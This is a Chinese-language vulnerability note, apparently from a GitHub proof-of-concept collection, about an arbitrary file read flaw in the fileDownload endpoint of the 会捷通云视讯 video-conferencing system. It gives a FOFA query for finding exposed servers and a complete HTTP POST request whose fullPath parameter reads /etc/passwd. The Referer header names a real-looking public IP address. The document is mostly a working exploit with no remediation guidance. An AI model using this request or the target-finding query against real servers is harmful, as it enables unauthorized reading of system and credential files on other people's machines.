

# 会捷通云视讯 fileDownload 任意文件读取漏洞

## 漏洞描述

会捷通云视讯 fileDownload 存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器上的任意文件

## 漏洞影响

```
会捷通云视讯
```

## FOFA

```
body="/him/api/rest/v1.0/node/role"
```

## 漏洞复现

登陆页面如下


发送请求包


```plain
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: 
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://36.99.45.142:9090/fileDownload?action=downloadBackupFile
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

fullPath=%2Fetc%2Fpasswd
```





## 